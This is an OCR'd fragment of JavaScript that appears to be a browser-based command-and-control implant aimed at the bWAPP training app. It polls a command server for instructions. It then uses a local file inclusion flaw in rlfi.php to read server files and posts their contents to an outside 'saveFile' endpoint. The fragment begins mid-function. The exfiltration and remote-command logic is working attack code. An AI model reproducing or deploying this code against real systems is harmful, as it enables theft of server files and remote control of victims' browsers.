 ```
    }
    if (element[0] == BASE64FILE) {
        base64File = element[1];
    }
    if (element[0] == UPLOADFILENAME) {
        uploadFileName = element[1];
    }
    if (element[0] == CONTENTYPE) {
        contentType = element[1];
    }
    if (element[0] == SITE) {
        site = element[1];
    }
}

function resetCommand(){
    command = "";
    lfiFile = "";
    value = "";
    key = "";
    base64File = "";
    uploadFileName = "";
    contentType = "";
    site = "";
}

async function getCommand() {
    let response = await fetch(commandUrl,{
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
    let text = await response.text()
    splittedBody = text.split("&");
    splittedBody.forEach(function(element){
        parseCommand(element)
    });
}

async function runLFI() {
    var urlOfThePage = window.location.protocol + "//" + window.location.host
    lfiTarget = urlOfThePage + "/bWAPP/rlfi.php?language="+lfiFile+"&action=go";
    dataSaveUrl = serverURL + "/saveFile"
    let response = await fetch(lfiTarget);
    let data = await response.text();
    var parser = new DOMParser();
    var htmlDoc = parser.parseFromString(data, 'text/html');
    
    var text = htmlDoc.getElementById("main").innerText;
    fileContent = text.substring(text.indexOf('Go') + 2);
    console.log(lfiFile)
    await fetch(dataSaveUrl,{
        body: "fileContent=" + encodeURIComponent(fileContent) + "&fileName=" + encodeURIComponent(lfiFile), 
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
}
```